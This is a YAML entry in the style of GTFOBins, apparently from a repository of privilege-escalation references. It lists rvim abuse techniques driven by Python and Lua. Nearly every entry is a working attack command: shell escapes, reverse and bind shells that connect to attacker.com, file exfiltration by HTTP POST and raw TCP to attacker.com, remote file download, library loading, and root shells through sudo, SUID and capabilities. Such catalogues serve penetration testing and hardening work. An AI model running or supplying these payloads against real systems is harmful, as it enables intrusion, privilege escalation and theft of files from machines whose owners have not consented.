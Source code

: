 functions:
  shell:
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: rvim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
    - description: This requires that `rvim` is compiled with Lua support.
      code: rvim -c ':lua os.execute("reset; exec sh")'
  reverse-shell:
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3. Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        rvim -c ':py import vim,sys,socket,os,pty;s=socket.socket()
        s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
        pty.spawn("/bin/sh")
        vim.command(":q!")'
  non-interactive-reverse-shell:
    - description: Run ``nc -l -p 12345`` on the attacker box to receive the shell. This requires that `rvim` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        rvim -c ':lua local s=require("socket"); local t=assert(s.tcp());
          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
          while true do
            local r,x=t:receive();local f=assert(io.popen(r,"r"));
            local b=assert(f:read("*a"));t:send(b);
          end;
          f:close();t:close();'
  non-interactive-bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell. This requires that `rvim` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export LPORT=12345
        rvim -c ':lua local k=require("socket");
          local s=assert(k.bind("*",os.getenv("LPORT")));
          local c=s:accept();
          while true do
            local r,x=c:receive();local f=assert(io.popen(r,"r"));
            local b=assert(f:read("*a"));c:send(b);
          end;c:close();f:close();'
  file-upload:
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3. Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        rvim -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))
        vim.command(":q!")'
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3. Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        rvim -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()
        vim.command(":q!")'
    - description: Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file. This requires that `rvim` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        rvim -c ':lua local f=io.open(os.getenv("LFILE"), 'rb')
          local d=f:read("*a")
          io.close(f);
          local s=require("socket");
          local t=assert(s.tcp());
          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
          t:send(d);
          t:close();'
  file-download:
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3. Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        rvim -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve(e["URL"], e["LFILE"])
        vim.command(":q!")'
    - description: Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file. This requires that `rvim` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export LPORT=12345
        export LFILE=file_to_save
        rvim -c ':lua local k=require("socket");
          local s=assert(k.bind("*",os.getenv("LPORT")));
          local c=s:accept();
          local d,x=c:receive("*a");
          c:close();
          local f=io.open(os.getenv("LFILE"), "wb");
          f:write(d);
          io.close(f);'
  file-write:
    - code: |
        rvim file_to_write
        iDATA
        ^[
        w
  file-read:
    - code: rvim file_to_read
  library-load:
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: rvim -c ':py import vim; from ctypes import cdll; cdll.LoadLibrary("lib.so"); vim.command(":q!")'
  suid:
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: ./rvim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
  sudo:
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: sudo rvim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
    - description: This requires that `rvim` is compiled with Lua support.
      code: sudo rvim -c ':lua os.execute("reset; exec sh")'
  capabilities:
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: ./rvim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
  limited-suid:
    - description: This requires that `rvim` is compiled with Lua support.
      code: ./rvim -c ':lua os.execute("reset; exec sh")'
---
